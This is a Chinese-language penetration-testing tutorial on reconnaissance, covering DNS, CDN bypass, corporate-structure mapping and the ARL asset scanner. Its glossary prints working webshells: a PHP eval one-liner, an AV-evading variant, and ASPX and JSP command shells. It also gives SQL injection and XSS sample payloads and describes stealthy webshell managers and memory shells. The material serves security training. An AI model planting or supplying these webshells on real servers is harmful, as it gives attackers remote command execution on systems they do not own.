# Day6 信息打点（一）

## 前言

在 Web 安全攻防中，攻击手段固然关键，但前期的精准信息收集更是重中之重——它远不只是简单地找子域名、扫目录、测端口，而是一门洞悉目标全貌的艺术。

**信息打点标准流程一览**

```
[0]自动化信息收集阶段
    1.--工具自动化信息收集
[1]资产发现阶段
    1.--组织信息收集
    2.--主域名收集
    3.--子域名收集
[2]资产扩展阶段
    1.--旁站C段收集
    2.--CDN识别
    3.--端口收集
[3]资产梳理阶段
    1.--测活+指纹识别
[4]自动化扫描阶段
    1.--漏洞扫描器测试
[5]重点目标针对收集阶段
    1.--架构信息收集
    2.--源码信息收集
    3.--网站基本信息
        (1)----语言
        (2)----数据库
        (3)----web容器
        (4)----操作系统
    4.--网站深度信息收集
        (1)----前端源码
        (2)----目录
        (3)----端口
        (4)----js接口
        (5)----快照
        (6)----插件
        (7)----旁站
    5.--网盘信息
    6.--社工信息
```

## 一、名词介绍

### 1.资产相关

#### 1. 1**组织结构（Organization Structure）**

指目标企业的组织框架，如：总部、分支机构、子公司、事业部、研发中心等。

**用途：**

- 判断攻击面分布（例如某地区分公司安全薄弱）。
- 推断不同业务线对应的系统与资产。
- 识别可能存在弱安全管理的小单位、有独立业务系统的小分支。

### 2.域名相关

#### 2.1 物理地址
- 又称 **MAC 地址**（Media Access Control Address）。  
- 是网卡的唯一标识符，由厂商烧录在硬件中，通常为 48 位（12 个十六进制数）。  
- 用途：局域网中设备识别与通信。  

**Windows查看mac地址**：

- 在开始菜单或搜索栏中输入 `cmd`，然后按回车键打开命令提示符。
- 在命令提示符窗口中输入 `ipconfig /all`，然后按回车键。
- 在显示的结果中，找到你正在使用的网络，其下方的“物理地址”就是 MAC 地址。



#### 2.2 IP地址

- **IP 地址（Internet Protocol Address）** 是设备在网络中的逻辑地址。  
- 分类：
  - IPv4：32 位，常见格式如 `192.168.1.1`。  
  - IPv6：128 位，更大地址空间，格式如 `2001:0db8:85a3::8a2e:0370:7334`。  
- 用途：在网络中定位和标识设备。  

**Windows查看IP地址**：

- 在开始菜单或搜索栏中输入 `cmd`，然后按回车键打开命令提示符。
- 在命令提示符窗口中输入 `ipconfig /all`，然后按回车键。
- 在显示的结果中，找到你正在使用的网络，其下方的“IPv4地址”就是 IP地址。



#### 2.3 域名
- **域名（Domain Name）** 是 IP 地址的易记替代。  
- 例如：`www.example.com` 对应某个 IP 地址。  
- 优势：比数字 IP 更易于记忆和使用。  

**ping百度看看**



#### **2.4 域名解析（DNS Resolution）**

- **域名解析（DNS Resolution）**：将用户输入的 **域名转换为对应的 IP 地址** 的过程。
- 当你访问 `www.baidu.com` 时，浏览器并不知道它的 IP，因此会向 DNS 发起查询流程。典型流程如下：
  1. 浏览器先查本地缓存（浏览器缓存、系统缓存、Hosts 文件）。
  2. 查不到则问 **运营商 DNS（递归解析服务器）**。
  3. 递归 DNS 再去问根服务器 → 顶级域名服务器 → 权威服务器。
  4. 得到最终 IP，再返回给浏览器。
- **解析结果会被缓存**，加速下次访问。
- **渗透角度**：
  - 通过 DNS 查询可发现 **真实 IP、备用 IP、迁移历史记录**。
  - 特殊 DNS 记录（如 TXT、MX）也可能暴露信息。

#### **2.5 域名服务器（DNS Server）**

DNS 是一种 **分布式、分层级** 的命名体系，负责保存 **域名 ↔ IP** 映射。

**常见 DNS 服务器类型**

**(1) 根域名服务器（Root DNS）**

- 顶层服务器，全球仅 13 组（A~M 根服务器）。
- 不储存具体域名 IP，只告诉你对应 TLD 服务器在哪里。

**(2) 顶级域名服务器（TLD DNS）**

- 管理 `.com`、`.cn`、`.org` 等后缀。
- 告诉你该域名的权威 NS 服务器在哪。

**(3) 权威域名服务器（Authoritative DNS）**

- **最关键**
- 保存域名的真实记录，例如：
  - A（IPv4）
  - AAAA（IPv6）
  - MX（邮件服务器）
  - TXT（SPF、Google 验证等）
- 渗透测试中可从 TXT、MX 获取大量企业信息。

**(4) 递归解析服务器（Resolver）**

- 由运营商或企业内部提供（如 114.114.114.114 / 8.8.8.8）。
- 帮用户完成所有查询工作。

#### **2.6 域名级别**

理解域名层级有助于做子域名收集。

- **顶级域名（TLD）**：
   `.com`、`.cn`、`.edu`、`.org`
  - 分为：国家顶级域（ccTLD）如 `.cn`，通用顶级域（gTLD）如 `.com`。
- **二级域名**：
   `example.com`
  - 通常由企业注册。
- **三级域名**：
   `www.example.com`
  - 一般用于 Web 服务。
- **子域名（任意层级）**：
   `mail.example.com`、`api.example.com`
  - 企业常按业务划分子域名，渗透测试中价值极大。

#### **2.7 域名注册**

- 用户可通过域名注册商注册域名，如：
  - 阿里云、腾讯云、华为云
  - GoDaddy、Namecheap
- 注册要求：
  - **唯一性**：一个域名只能被一人注册。
  - **付费周期**：通常按年付费，不续费可能被别人抢注。
  - 某些后缀（如 `.cn`）可能需要 **实名认证**。
- 注册商会提供：
  - 域名管理后台
  - DNS 管理功能
  - 域名转移、续费等服务

#### **2.8 域名对于渗透的作用**

域名是整个信息收集阶段的 **第一入口**。

**域名能提供哪些有价值的信息？**

**(1) IP 地址**

- 用 DNS 查询可定位网站真实 IP。

**(2) 子域名**

- 通过工具（subfinder、ksubdomain、oneforall）可挖掘：
  - `dev.example.com`（内部测试环境）
  - `vpn.example.com`
  - `api.example.com`
- 这些往往是高危入口。

**(3) Whois 注册信息**

- 可查看注册人、邮箱、手机号、DNS 服务商等。
- 可能暴露：
  - 企业负责人邮箱
  - 技术人员联系方式
  - 注册地址



**(4) 备案信息（国内）**

- 可查到公司名称、网站用途、服务器提供商等。



**(5) IP 反查域名**

- 可看到某 IP 曾经绑定过哪些域名
- 有机会绕过 CDN / 云 WAF 找到源站 IP



https://site.ip138.com/110.42.61.198/



#### **2.9 Hosts 文件**

`Hosts` 是本地系统的静态 DNS 配置文件。

**特点：**

- **优先级最高**（> DNS 缓存 > 递归 DNS）。
- 常用于：
  - 测试环境指定某服务器 IP
  - 屏蔽广告域名
  - 调试网站上线前的 DNS

**路径：**

- **Windows**：
   `C:\Windows\System32\drivers\etc\hosts`
- **Linux / macOS**：
   `/etc/hosts`

**渗透或安全视角：**

- 木马可篡改 hosts 进行 **钓鱼或劫持**：

  ```
  192.168.1.10   www.bank.com
  ```

------

#### **2.10 CDN（内容分发网络）**

**CDN 的作用**

- 将网站资源缓存到全国/全球各地的节点：
  - 加快访问速度
  - 提升并发性能
  - 承受大流量攻击（DDoS）
  - 隐藏源站 IP

**CDN 的结构**

用户 → 最近的 CDN 节点 → CDN 回源 → 真实服务器

**对渗透测试的影响**

**优点（对防守方）**：

- 隐藏真实 IP
- 防止扫描、弱口令攻击、CC/DDoS

**难点（对攻击者）**：

- 你看到的 IP 全是 CDN 节点
- 原站 IP 被隐藏，端口扫描、资产识别都受阻

**常见绕过方法**

- 历史 DNS 记录（viewdns、fofa）
- 邮件服务器 MX 不经过 CDN
- 特殊端口可能没配置 CDN
- 子域名泛解析错误
- IP 反查历史绑定域名

#### 2.11 针对 DNS 的攻击
见http的dns部分，或者网站域名章节

### 3.编程相关

#### 3.1 Shell 简介
- **Shell 定义**  
  - Shell 是操作系统的命令解释器，用户通过 Shell 输入命令，操作系统执行并返回结果。  
  - 常见的 Shell 类型：
    - **Linux/Unix Shell**：如 `bash`、`sh`、`zsh`。  
    - **Windows Shell**：如 `cmd.exe`、PowerShell。  

- **在安全中的作用**  
  - 正常用途：系统管理、批量任务处理。  
  - 攻击用途：一旦获得 Shell 权限，攻击者可直接控制目标系统。  

---

#### 3.2 WebShell
- **定义** 
  WebShell 是一种运行在 Web 服务器上的恶意脚本文件，攻击者通过浏览器远程操作服务器。  

- **常见形式**  
  
  - **一句话木马（PHP）**  
    
    ```php
    <?php @eval($_POST['cmd']); ?>
    ```
    - 攻击者通过 POST 请求传递命令，服务器执行并返回结果。  
    - **一句话木马 ≠ 简单后门**，而是一种**动态执行引擎**：
      它把 PHP 解释器变成了一个远程命令解释器（Remote Command Interpreter），等价于在服务器上开了一个 `bash` 或 `cmd.exe` 的 Web 接口。
    
    免杀一句话：
    
    ```php
    <?php
    $a = "ev";
    $b = "al";
    $c = $a . $b;
    $d = $_POST['p'];
    if ($d) {
        $c($d);
    }
    ?>
    ```
    
  - **ASP/ASPX WebShell**（适用于 Windows IIS）。  
  
    ```c#
    <%@ Page Language="C#" %>
    <%
        System.Diagnostics.Process proc = new System.Diagnostics.Process();
        proc.StartInfo.FileName = "cmd.exe";
        proc.StartInfo.Arguments = "/c " + Request["cmd"];
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        string output = proc.StandardOutput.ReadToEnd();
        Response.Write(output);
    %>
    ```
  
    - 说明：攻击者访问 `http://target.com/shell.aspx?cmd=whoami`，服务器执行命令并返回结果。
  
  - **JSP WebShell**（适用于 Java Web 应用）。  
  
    ```jsp
    <%
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            String output = "";
            try{
                Process p = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader reader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(p.getInputStream())
                );
                String line;
                while((line = reader.readLine()) != null){
                    output += line + "\n";
                }
            }catch(Exception e){
                output = e.toString();
            }
            out.println(output);
        }
    %>
    ```
  
    - 说明：
      - 攻击者访问 `http://target.com/shell.jsp?cmd=whoami`，即可远程执行系统命令。
  
- **典型功能**  
  
  - 文件管理：上传、下载、修改、删除。  
  - 数据库操作：执行 SQL 查询、导出数据。  
  - 命令执行：直接调用系统命令。  
  - 权限维持：创建隐藏账户或服务。  

---

#### 3.3 WebShell 获取方式
- **文件上传漏洞**：上传 `.php` 或 `.jsp` 文件作为后门。  
- **代码注入漏洞**：通过 SQL 注入写入 WebShell 文件。  
- **弱口令后台**：上传恶意插件或脚本。  
- **远程文件包含 (RFI)**：加载远程的恶意脚本。  

---

#### 3.4 常用的 WebShell 管理工具（扩展版）

WebShell 管理工具是渗透测试后期常用的控制手段，用于对植入目标网站的“木马脚本”进行图形化管理。常见能力包括 **文件操作、命令执行、数据库管理、反弹 shell、内存马注入** 等。

##### 3.4.1 中国菜刀 (China Chopper)

- **特点**
  - 体积极小，仅几十 KB，可轻松随身携带。
  - 支持 ASP、ASPX、PHP、JSP 等多种 WebShell。
  - GUI 简洁，操作逻辑清楚，对新手十分友好。
  - 上手成本低、运行稳定，老工具但仍被广泛使用。
- **功能**
  - 文件管理（上传、下载、编辑、删除）。
  - 数据库管理（简单 SQL 操作）。
  - 系统命令执行。
  - 支持反弹 Shell（简单版本）。
- **特点**
  - 由于通信流量无加密、无混淆，目前极易被 WAF 与 SOC 检测。
  - 常用于教学演示，而非现代实战环境。
- **应用场景**
  - 老旧系统、弱防护环境。
  - 安全课程和 CTF 中展示 WebShell 基本操作。

##### 3.4.2 中国蚁剑 (AntSword)

- **特点**
  - 开源项目，跨平台（Windows / Linux / macOS）。
  - 基于 Node.js，插件生态非常完善。
  - UI 现代化，功能更新快，活跃社区不断发布新插件。
  - 支持自定义通信协议，可对抗一定检测。
- **功能**
  - 文件管理（支持大文件断点续传）。
  - 数据库管理（MySQL、SQLite、Oracle 插件）。
  - 系统命令执行、虚拟终端。
  - 内存马管理（配合插件使用）。
  - WebShell 生成器，大量特制马可选。
- **特点**
  - **插件生态** 是其核心优势，可一键扩展扫描、提权、隧道等能力。
  - 因为完全开源，非常适合作为代码分析案例。
- **应用场景**
  - 现代渗透测试常用管理工具。
  - 对抗规则型 WAF 的场景。

##### 3.4.3 冰蝎 (Behinder)

- **特点**
  - 针对 **Java Web 应用** 的高级 WebShell 管理器，但也支持 ASPX、PHP。
  - 采用 **强加密通信**（AES），难以被 WAF、IDS 记录和检测。
  - 具有“**Shell → 内存马**”链能力，使后门不落磁盘。
  - 对安全设备极具迷惑性，是蓝队防御分析的重点。
- **功能**
  - 内存马注入（Servlet / Filter / Listener）。
  - 虚拟终端，命令执行。
  - 数据库管理。
  - 反弹 Shell 支持。
- **特点**
  - 冰蝎的核心是 **加密 + 回显机制**，用于绕过流量检测。
  - 学习 Java 内存马的绝佳案例。
- **应用场景**
  - Java 系应用服务器（Tomcat、WebLogic、SpringBoot）渗透场景。
  - 需要隐蔽通信的持久化控制。

##### 3.4.4 哥斯拉 (Godzilla)

- **特点**
  - 被认为是“冰蝎的进化版”，在抗检测能力和跨语言支持上有巨大提升。
  - 支持 JSP、ASP.NET、PHP、Go 等多种语言。
  - 流量加密强度高，支持 AES、RC4、国密 SM4 等多种算法。
  - 对请求流量有高度混淆，特征极少，极难被规则检测。
- **功能**
  - 多种类型的内存马注入（Servlet、Filter、Agent 等）。
  - 插件化扩展。
  - 强混淆加密通信、多通道通信。
  - 自动化持久化控制（生成各种马）。
- **特点**
  - 在蓝队安全设备中，哥斯拉是最典型的 **特征少、行为隐蔽** 的 WebShell。
  - 红队实战常用，典型高隐蔽后门。
- **应用场景**
  - 大型攻防演练、红队行动。
  - 需要长期维持隐蔽控制的场景。

##### 3.4.5 Weevely

- **特点**
  - 基于 Python 的 WebShell 管理工具，命令风格类似 Metasploit。
  - WebShell 本体仅几行 PHP，极其轻量，可绕过简单防御。
  - 自带于 Kali Linux。
  - 易于扩展模块，适合脚本化操作。
- **功能**
  - 文件管理（upload/download/ls）。
  - 系统命令执行。
  - 大量扩展模块（端口扫描、反弹 shell、代理、密码爆破等）。
  - 可作为轻量化后门在低防护服务器上使用。
- **特点**
  - 易于二次开发，适合学习后门通信协议。
  - 更偏向脚本化、批量化管理。
- **应用场景**
  - 自动化渗透测试、脚本化运维。
  - 需要轻量隐蔽 WebShell 的场景。

##### 3.4.6 工具对比表

| 工具        | 语言支持            | 通信加密 | 插件/扩展 | 隐蔽性 | 主要特点                   |
| ----------- | ------------------- | -------- | --------- | ------ | -------------------------- |
| **菜刀**    | ASP, ASPX, PHP, JSP | 无       | 少        | ★☆☆☆☆  | 经典轻量、易检测、教学常用 |
| **蚁剑**    | ASP, ASPX, PHP, JSP | 可定制   | 多        | ★★★☆☆  | 开源跨平台，插件生态强     |
| **冰蝎**    | JSP, ASPX, PHP      | 强加密   | 一般      | ★★★★☆  | 加密通信 + 内存马          |
| **哥斯拉**  | JSP, ASPX, PHP, Go  | 多算法   | 较多      | ★★★★★  | 高隐蔽、高对抗、红队常用   |
| **Weevely** | PHP                 | 有       | 模块化    | ★★☆☆☆  | 模块多、轻量、脚本化       |

#### 3.5 后门

- **定义** 
  后门是攻击者在目标系统中留下的隐蔽入口，以便下次无需重新利用漏洞即可进入。  

- **WebShell 与后门的关系**  
  - WebShell 可以看作是一种 **Web 后门**。  
  - 攻击者常用 WebShell 初步控制系统，再植入更隐蔽的后门（如 Rootkit、木马）。  

---

#### 3.6 后门的作用
1. **维持持久化访问**：保证长期控制目标服务器。  
2. **权限维持与提升**：通过后门继续尝试提权。  
3. **隐蔽性**：比普通 Shell 更难被发现。  
4. **跳板功能**：利用已控服务器攻击内网其他系统。  

---

#### 3.7 后门进阶
- **免杀与混淆**  
  - 使用编码、加密绕过杀毒软件。  
  - 将 WebShell 伪装成正常业务脚本。  

- **内存马 (Memory Shell)**  
  - 直接注入到应用服务器的内存中（Tomcat、Weblogic 常见）。  
  - 文件系统中没有痕迹，检测难度高。  

- **隐蔽通信**  
  - 使用 HTTPS、DNS 隧道进行通信，避免明文流量暴露。  
  - 借助正常业务流量（如 WebSocket、API 请求）隐藏后门通信。  

### 4.网站相关

#### 4.1 网站的基本组成

1. **前端 (Front-end)**  
   - 用户可见的部分，包括网页的结构、样式和交互功能。  
   - 常见技术：  
     - HTML（页面结构）  
     - CSS（页面样式）  
     - JavaScript（交互逻辑）  

2. **后端 (Back-end)**  
   - 处理业务逻辑、数据存储和用户请求的部分。  
   - 常见技术：  
     - PHP、Python、Java、.NET、Node.js  
     - 数据库：MySQL、PostgreSQL、MongoDB  

3. **服务器与中间件**  
   - 运行网站的硬件和软件环境。  
   - 常见组件：  
     - Web 服务器：Apache、Nginx、IIS  
     - 应用服务器：Tomcat、WebLogic  
     - 缓存：Redis、Memcached  

4. **数据库 (Database)**  
   - 存储和管理网站的数据，如用户信息、文章内容。  
   - 常见数据库：MySQL、Oracle、MongoDB。  

---

#### 4.2 针对网站结构的测试

1. **信息收集**  
   - 获取网站的域名、IP 地址、端口。  
   - 探测目录和文件（如 `/admin`、`/uploads`）。  
   - 使用工具：`nmap`、`dirb`、`gobuster`。  

2. **网站指纹识别**  
   - 判断网站使用的 CMS、框架和语言。  
   - 工具：`whatweb`、`wappalyzer`。  

3. **功能测试**  
   - 逐一分析网站的功能模块（注册、登录、搜索、上传等）。  
   - 重点关注数据输入点和交互功能。  

4. **安全测试**  
   - 使用漏洞扫描工具（如 AWVS、Burp Suite）发现潜在漏洞。  
   - 手工测试输入点是否存在异常。  

---

#### 4.3常见 Web 漏洞

1. **SQL 注入 (SQL Injection)**  
   
   - 攻击者通过输入恶意 SQL 语句操作数据库。  
   - 危害：数据泄露、篡改、提权。  
   - 示例：  
     ```sql
     输入用户名: admin' OR '1'='1
     ```
   
2. **跨站脚本 (XSS)**  
   - 在网页中注入恶意 JavaScript 脚本。  
   - 危害：窃取 Cookie、会话劫持、钓鱼攻击。  
   - 示例：  
     ```html
     <script>alert('XSS')</script>
     ```

3. **文件上传漏洞**  
   - 未严格限制上传文件类型，攻击者上传 WebShell。  
   - 危害：服务器被远程控制。  

4. **命令执行 (RCE)**  
   - 服务器端执行了用户输入的系统命令。  
   - 危害：服务器完全被接管。  

5. **文件包含 (LFI/RFI)**  
   
   - 本地文件包含 (LFI)：攻击者读取系统敏感文件。  
   - 远程文件包含 (RFI)：加载远程恶意代码。  
   
6. **跨站请求伪造 (CSRF)**  
   - 诱骗用户在已登录状态下，执行攻击者构造的请求。  
   - 危害：修改密码、转账、删除数据。  

7. **弱口令/认证绕过**  
   - 管理员设置弱密码或认证逻辑存在漏洞。  
   - 危害：直接进入后台管理系统。  

8. **敏感信息泄露**  
   - 网站源代码、备份文件、日志文件未妥善保护。  
   - 危害：泄露数据库密码、配置文件等敏感信息。  

### 5. 漏洞相关

#### 5.1 漏洞定义
- **什么是漏洞** ？ 
  漏洞是软件、系统或应用中的设计缺陷或实现问题，可能被攻击者利用，导致安全风险。  
- **漏洞类型**  
  - 代码漏洞（如 SQL 注入、缓冲区溢出）。  
  - 配置漏洞（如默认口令、目录遍历）。  
  - 逻辑漏洞（如支付绕过、权限越权）。  

---

#### 5.2 EXP / POC 安全漏洞
- **POC（Proof of Concept）**  
  - 中文：概念验证。  
  - 作用：验证漏洞是否存在。  
  - 特点：通常不具备破坏性。  
  - 示例：提交特殊参数触发 SQL 报错。  

- **EXP（Exploit）**  
  - 中文：漏洞利用程序。  
  - 作用：直接利用漏洞获取权限或破坏系统。  
  - 特点：具备攻击性和实用性。  
  - 示例：通过漏洞上传 WebShell，控制服务器。  

---

#### 5.3 漏洞管理
- **漏洞生命周期**  
  1. 发现（研究员、安全厂商、黑客）  
  2. 报告（CVE、CNVD、厂商）  
  3. 分析与验证  
  4. 修复与补丁发布  
  5. 验证修复效果  
  6. 持续监控  
- **漏洞管理流程**  
  - 信息收集：定期监控漏洞情报。  
  - 评估：根据 CVSS 打分判断漏洞风险等级。（CVSS（Common Vulnerability Scoring System）是一种国际通用的漏洞严重性评分标准，分数范围为 **0.0 - 10.0**。  主要由 **三大度量指标** 构成：**基本度量（Base Metrics）、时间度量（Temporal Metrics）、环境度量（Environmental Metrics）**）
  - 修复：及时更新补丁、调整配置。  
  - 验证：确认漏洞是否彻底修复。  

---

#### 5.4 OWASP Top 10
OWASP（开放式 Web 应用安全项目）发布的 **Web 应用最严重的 10 类风险**，最经典版本为 **OWASP Top 10 - 2017**，被大量教材、培训和安全审计标准引用。  

##### A1: 注入（Injection）

- **定义**：攻击者将恶意数据作为命令或查询发送到解释器（如 SQL、OS 命令、LDAP、NoSQL）。  
- **典型案例**：SQL 注入、命令注入。  
- **防御**：使用参数化查询、预编译语句，避免拼接 SQL。  

##### A2: 身份认证失效（Broken Authentication）

- **定义**：应用程序未正确保护身份认证功能，导致攻击者可冒充合法用户。  
- **典型案例**：弱口令、会话固定、凭证暴力破解。  
- **防御**：使用强密码策略、多因素认证，合理的 Session 管理。  

##### A3: 敏感数据泄露（Sensitive Data Exposure）

- **定义**：敏感数据（密码、银行卡、隐私信息）在存储或传输中未得到保护。  
- **典型案例**：明文传输 HTTP、数据库明文存储密码。  
- **防御**：强制使用 HTTPS，数据加密存储，密钥管理。  

##### A4: XML 外部实体 (XXE)

- **定义**：不安全的 XML 解析器允许攻击者注入恶意的外部实体。  
- **典型案例**：读取服务器本地文件、SSRF、拒绝服务。  
- **防御**：禁用外部实体，使用安全的 XML 解析库。  

##### A5: 访问控制失效（Broken Access Control）

- **定义**：访问控制策略执行不当，导致用户访问不该访问的资源或功能。  
- **典型案例**：越权访问、水平/垂直权限绕过。  
- **防御**：强制服务器端访问控制，避免仅依赖前端。  

##### A6: 安全配置错误（Security Misconfiguration）

- **定义**：应用、框架、服务器配置错误，导致漏洞。  
- **典型案例**：未关闭调试模式、默认口令、暴露的管理接口。  
- **防御**：最小化安装、禁用不必要功能、统一配置管理。  

##### A7: 跨站脚本 (XSS, Cross-Site Scripting)

- **定义**：攻击者将恶意脚本注入网页，用户浏览时执行。  
- **典型案例**：反射型、存储型、DOM 型 XSS。  
- **防御**：输入输出过滤、CSP、安全编码。  

##### A8: 不安全的反序列化（Insecure Deserialization）

- **定义**：不安全的对象反序列化可能导致远程代码执行、注入、权限提升。  
- **典型案例**：Java、PHP 反序列化漏洞。  
- **防御**：避免反序列化不可信数据，使用安全格式（JSON）。  

##### A9: 使用含已知漏洞的组件（Using Components with Known Vulnerabilities）

- **定义**：使用带已知漏洞的开源库、框架或组件。  
- **典型案例**：Struts2 漏洞、过期的 jQuery。  
- **防御**：及时更新依赖库，使用漏洞扫描工具。  

##### A10: 不足的日志和监控（Insufficient Logging & Monitoring）

- **定义**：缺少安全日志与监控，导致攻击难以及时发现与响应。  
- **典型案例**：无入侵日志、无异常报警。  
- **防御**：记录关键操作日志，集成 SIEM，建立响应机制。  

---

#### 5.5 漏洞扫描
- **定义** 
  自动化检测系统或网站漏洞的工具或方法。  

- **常用工具**  
  - **Web 漏洞扫描**：Xray、AWVS、AppScan、Burp Suite。  
  - **主机漏洞扫描**：Nessus、OpenVAS、Qualys。  
  - **综合安全平台**：长亭洞鉴、绿盟、启明星辰、360。  

- **优缺点**  
  - 优点：高效、覆盖面广。  
  - 缺点：可能存在漏报/误报，需人工验证。  

---

#### 5.6 其他
- **零日漏洞 (0-Day)**  
  - 未公开、未修复的漏洞，危险性极高。  
- **漏洞赏金平台**  
  - HackerOne、Bugcrowd、漏洞盒子、补天平台。  
- **安全加固方法**  
  - 最小权限原则。  
  - 定期更新补丁。  
  - Web 应用防火墙 (WAF)。  

## 二、自动化信息收集阶段

在开展手工信息收集之前，通常建议优先使用若干成熟的自动化信息收集工具，以便在较短时间内获取目标的大体资产分布情况。这类工具能够快速完成**基础扫描、指纹识别、子域名收集、端口探测、文件泄露检测**等任务，为后续的手工分析提供有效的参考依据。同时，自动化结果与手工信息收集的深度挖掘可以形成互补关系，进一步提升资产打点的全面性和准确性。

市面上常见的自动化资产收集平台较多，无需面面俱到，选择一到两款熟悉且顺手的工具即可。在众多工具中，我个人较为偏好 ARL（Asset Reconnaissance Lighthouse）。尤其值得一提的是其文件泄露检测模块，常常能够在信息收集早期帮助快速发现突破口。需要注意的是，由于“灯塔”官方版本已经停止维护，需要使用由第三方社区构建的备用分支。

### 1.ARL搭建使用

**因为灯塔ARL的官方开源项目被删除了，所以可以使用第三方项目安装使用**https://github.com/Aabyss-Team/ARL

#### 1.1 如何安装ARL

**ARL安装命令如下（源码安装和Docker安装合一）**

```bash
#国外
wget https://raw.githubusercontent.com/Aabyss-Team/ARL/master/misc/setup-arl.sh
chmod +x setup-arl.sh
./setup-arl.sh
#国内
wget https://raw.gitcode.com/msmoshang/ARL/raw/master/misc/setup-arl.sh
chmod +x setup-arl.sh
./setup-arl.sh
```

如果选择的是源码安装，可以通过以下命令确认服务状态（如果全部运行正常那就没问题）：

```bash
systemctl status mongod
systemctl status rabbitmq-server
systemctl status arl-web
systemctl status arl-worker
systemctl status arl-worker-github
systemctl status arl-scheduler
systemctl status nginx
```

源码安装后，请前往ARL-Web页面：`https://IP:5003/`

原账号密码：`admin`,`arlpass`

新版账号密码为随机生成，会打印在控制台

Docker安装暂时提供单个选择，如下：

```
1) honmashironeko/ARL-docker：本间白猫ARL-Docker版
```

执行完脚本确认没报错后，请前往ARL-Web页面：`https://IP:5003/`：账号：`admin`，密码：`honmashironeko`

如果遇到docker-compose错误，执行下面的命令

```bash
# 创建软连接
sudo ln -sf /usr/libexec/docker/cli-plugins/docker-compose /usr/local/bin/docker-compose

# 验证
ls -l /usr/local/bin/docker-compose
# 应显示: ... -> /usr/libexec/docker/cli-plugins/docker-compose

docker-compose version
# 输出: Docker Compose version v2.x.x
```

运行脚本后，如果pull 镜像的时候报错，物理机挂全局代理，把系统代理打开。（实际就是科学上网的问题，拉不到docker镜像）

#### 1.2 ARL虚拟机

VM虚拟机，开箱即用，解压后用vm打开虚拟机即可，需要配置指纹等，见最后附录“自动化工具安装”

### 2.其他工具

除 ARL 外，业内还常使用的工具包括：

- shuize（https://github.com/0x727/Shuize_0x727）

- kunyu（https://github.com/knownsec/Kunyu）

- nemo_go（https://github.com/hanc00l/nemo_go）

  支持mcp server，可通过自然语言实现工具调用



- ScopeSentry（https://github.com/Autumn-27/ScopeSentry）





这些工具在资产发现、子域名扫描、端口服务识别等方面均具有各自的优势，可根据自身习惯灵活选择。

更详细的轮子大全见附录

总体而言，在资产发现阶段的目标是尽可能全面地识别出目标主体的大部分外部可见资产，为后续的漏洞挖掘、渗透测试与风险评估奠定基础。

### 3.ENScan_GO

https://github.com/wgpsec/ENScan_GO

## 三、资产发现阶段

### 1. 组织信息收集

#### **1.1 概念简介**

组织结构收集是信息打点阶段的重要内容之一，其目的在于**明确目标企业或机构的整体架构**，包括：

- 拥有哪些子公司或附属机构
- 子公司在整个集团结构中的层级位置
- 各实体之间的股权比例与控制关系
- 目标主体在集团所处的角色（核心公司、控股公司、子公司等）

对于结构单一的中小型目标，往往仅存在单个主体，无需开展组织结构分析。而对于大型集团企业、政务单位、大型高校等拥有复杂架构的目标，组织结构收集具有非常重要的价值。

#### **1.2 收集组织结构的作用**

以攻防演练（HW）为例，收集组织结构具有以下关键作用：

##### **1.2.1 扩大资产面，获取更多主域名与子域名**

通过识别目标的所有控股子公司，可以进一步发现：

- 隶属于同一集团的多个主域名
- 不同业务线对应的系统
- 多分支、多地域的资产节点

资产越全，攻击面越大，有助于发现更多突破入口。

##### **1.2.2 形成“自下而上”的攻击路径**

大型集团通常具有如下特征：

- 总部安全体系较为完善
- 子公司安全投入不足、管理较弱
- 子公司与总部往往处于同一办公网络或业务网络

因此，通过组织结构收集，可以：

- 寻找核心公司下的弱安全子公司
- 从安全薄弱处突破
- 再通过内网横向进入核心企业
- 最终达成对整个集团的控制

##### 1.2.3 举个例子

当已攻下目标A公司后，了解组织结构还可进一步：

- 利用A公司内的子公司数据、账号、密钥
- 在内网中寻找其他子公司的内部系统
- 对下属公司继续横向渗透

这样能够显著扩大渗透战果，在数据获取、权限扩张、评分提升等方面均有明显作用。

#### **1.3 收集方法**

组织结构信息的来源主要包括**股权关系**和**关键人物信息**两个方向，两者可互为补充。

##### **1.3.1 股权收集法**

以“华为”为例，可通过爱企查等平台查看其**股权穿透图**，从而获取集团旗下的子公司、控股公司及其层级结构。

主要步骤如下：

1.在企查平台搜索目标主体


2.打开股权穿透图，查看其控股链路



3.重点记录 **股权占比 ≥ 50%** 的子公司（控制关系强），忽略控股比例较低的企业（关联性弱）

4.将收集到的公司名称整理成列表，例如 `company.txt`

这样即可基本厘清目标在整个集团中的位置，以及与其他公司的隶属关系。

##### **1.3.2 关键人物收集法**

可以从法人、股东、高管等关键人物入手，识别其所担任法定代表、主管职位的公司，从而进一步补充集团结构信息。


常见方向包括：

- 查看目标法人的任职公司
- 查看高管的任职情况
- 交叉比对法人或高管所涉及的企业信息
- 与股权收集法互相验证

这种方式尤其适用于：

- 股权架构较复杂的集团
- 存在大量关联企业的情况
- 需要补充验证子公司真实性和关联度

不过该功能需要收费，可以结合使用不同平台，或者咸鱼租个会员



#### **1.4 结果整理**

最终，可将所有重要子公司（控股比例较高、关系较强）的名称整理至 `company.txt` 文件，用于后续资产发现及域名收集。

示例：

```
# company.txt
华为技术有限公司
华为投资控股有限公司
深圳市华为电气股份有限公司
深圳市华为技术软件有限公司
……
```

该文件将在后续的主域名收集、子域名挖掘、资产扩展中发挥重要作用。

#### **1.5 常用工具**

- **爱企查（首选）**
   https://aiqicha.baidu.com/

- **凤鸟（部分功能免费）**

  https://riskbird.com/?inviteCode=567AFE9FA6F41F05

其他可选平台：企查查、天眼查等（需配合会员功能使用）。

### 2. 主域名收集

域名收集是整个信息打点体系中的核心环节之一，通过对备案信息、企业关系、Whois 数据以及邮箱信息进行查询，可以从多维度还原目标的互联网资产结构。在此基础上，结合前期的组织结构收集结果，可进一步定位各子公司对应的主域名，为后续攻击面扩展奠定基础。

#### 2.1 域名查询

域名查询是网络安全信息收集的重要环节之一，通过多种方式可以获取域名背后的注册信息、备案信息、企业背景以及相关邮箱数据。这些信息常用于渗透测试的前期信息收集，也同样对企业的安全防护有参考意义。  

---

##### 2.1.1 备案查询

在国内网站需要通过工信部进行 ICP 备案才能投入使用，备案信息包括域名、主办单位、网站名称等。  

- **常用平台**：工信部备案系统（https://beian.miit.gov.cn）、ICP备案查询网（https://www.beianx.cn/search）、悠悠域名（https://www.yooym.com/tool/beiancx_aizhanwang.cn.html）、站长之家（https://icp.chinaz.com/）。  
